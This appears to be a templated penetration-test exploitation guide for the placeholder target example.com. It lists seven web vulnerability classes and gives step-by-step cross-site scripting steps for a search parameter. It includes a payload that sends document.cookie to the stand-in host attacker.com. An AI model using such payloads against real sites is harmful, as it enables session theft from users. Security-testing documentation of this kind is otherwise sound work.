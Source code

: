 # Detailed Exploitation Guide for example.com

This document provides detailed instructions for reproducing and exploiting the vulnerabilities found during the security assessment. This information is intended for authorized security testing only.

## Disclaimer

The information contained in this document is for authorized security testing purposes only. Unauthorized use of these exploitation techniques against systems without explicit permission is illegal and unethical.

## Target Information

- **Target:** example.com
- **Scan Date:** 20250426_154821

## Identified Vulnerabilities

The following vulnerabilities were identified during the assessment:

1. **Cross-Site Scripting (XSS)** (High)
2. **SQL Injection** (High)
3. **Cross-Site Request Forgery (CSRF)** (Medium)
4. **Open Redirect** (Medium)
5. **XML External Entity (XXE) Processing** (High)
6. **Server-Side Request Forgery (SSRF)** (High)
7. **Insecure Deserialization** (High)

## Detailed Exploitation Procedures

### Cross-Site Scripting (XSS) (High)

**Affected Component:** http://example.com/search (q parameter)

**Description:** An attacker can inject malicious JavaScript code into web pages viewed by users. When the page is rendered, the script executes in the victim's browser, allowing attackers to steal cookies, session tokens, redirect users to malicious sites, or perform actions on behalf of the victim.

#### Step-by-Step Exploitation

1. Navigate to the vulnerable page: http://example.com/search
2. Identify the vulnerable parameter: q
3. Craft a malicious XSS payload (e.g., <script>alert(document.cookie)</script>)
4. Submit the payload through the input field or URL parameter
5. Verify execution by checking if the JavaScript executes

#### Example Payloads

```
<script>fetch('https://attacker.com/steal?cookie='+document.cookie)</script>
```
